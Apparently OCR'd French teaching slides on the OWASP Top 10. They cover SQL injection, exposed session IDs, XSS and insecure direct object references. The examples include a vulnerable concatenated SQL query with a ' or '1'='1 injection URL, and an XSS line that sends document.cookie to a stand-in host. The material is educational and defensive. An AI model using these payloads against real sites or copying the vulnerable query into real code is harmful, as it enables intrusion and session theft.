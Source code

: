 
#### Comprendre le TOP 10

### Pour éviter d’être vulnérable

---

### L’injection

```sql
SELECT * FROM client WHERE id='" . $_GET["id"] . "'
```

```
http://exemple.com/liste?id='or '1'='1
```

---

### Violation de gestion d'authentification et de session

```
http://exemple.com/?jsessionid=A2938298D293
```

---

### XSS

Éxecution de code Javascript sans validation

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
alert("'echo $_POST["nom"];'");
```

```js
window.location = 'https://www.exemple.com? cookie=' + document.cookie;
```

---

### Référence directe non sécurisée à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---

```sql
SELECT * FROM client where mode=?
```
